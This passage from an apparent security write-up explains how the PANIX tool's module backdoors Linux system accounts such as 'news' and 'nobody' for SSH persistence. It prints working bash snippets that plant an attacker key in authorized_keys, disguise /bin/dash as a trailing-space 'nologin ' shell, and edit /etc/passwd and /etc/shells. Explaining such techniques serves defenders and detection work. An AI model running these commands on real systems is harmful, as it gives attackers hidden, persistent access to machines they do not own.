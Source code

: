 #### Persistence through T1098.004 -  SSH Authorized Keys: Backdoored System Users

Let’s examine how the PANIX [setup_backdoor_system_user.sh](https://github.com/Aegrah/PANIX/blob/7d5bb3892a79fd23d485c3ed82b8fefc81f178e0/modules/setup_backdoor_system_user.sh) module abuses this trick to leverage non-interactive system accounts to gain SSH access onto a target without creating a new user. Refer to the module to inspect the full payloads.

The first step is to identify a system user as the target for the attack. For example, as we know:

* The `news` user has `/var/spool/news/` as its home directory.
* The `nobody` user has `/nonexistent/` by default (which can be created).

The next step is to create the `.ssh` directory within the home directory and writes the attacker’s public key to the `authorized_keys` file, and ensure the correct file permissions:

```bash
# Create the .ssh directory
mkdir -p "$home_dir/.ssh"
chmod 755 "$home_dir/.ssh"  # Set directory permissions to be accessible by others

# Write the public key to authorized_keys
echo "$key" > "$home_dir/.ssh/authorized_keys"
chmod 644 "$home_dir/.ssh/authorized_keys"  # Set file permissions to be readable by others
```

This step ensures that the attacker can authenticate via SSH using their private key. The next step is to modify the shell. By default, system users like `news` and `nobody` are configured with `/usr/sbin/nologin` as their shell, which prevents interactive login sessions. We need to circumvent this restriction by:

1. Copying (for example) `/bin/dash` to `/usr/sbin/nologin` (with a trailing space).
2. Updating `/etc/passwd` to include the modified shell path.

```bash
# Copy /bin/dash to '/usr/sbin/nologin '
cp /bin/dash "/usr/sbin/nologin "

# Modify /etc/passwd to include the trailing space in the shell path
local username=$(echo "$user_entry" | cut -d: -f1)
sed -i "/^$username:/s|:/usr/sbin/nologin$|:/usr/sbin/nologin |" /etc/passwd 
```

Where the local username variable can be set to any system user. This subtle manipulation tricks the system into treating `/usr/sbin/nologin `(with a trailing space) as a valid shell.

Finally, to ensure SSH accepts the modified shell as valid, we need to add `nologin `(with a trailing space) to `/etc/shells`:

```bash
# Check and add "nologin " to /etc/shells if not already present
if ! grep -q "nologin " /etc/shells; then
    echo "nologin " >> /etc/shells
    echo "[+] Added 'nologin ' to /etc/shells"
else
    echo "[+] 'nologin ' already exists in /etc/shells. Skipping."
fi
```
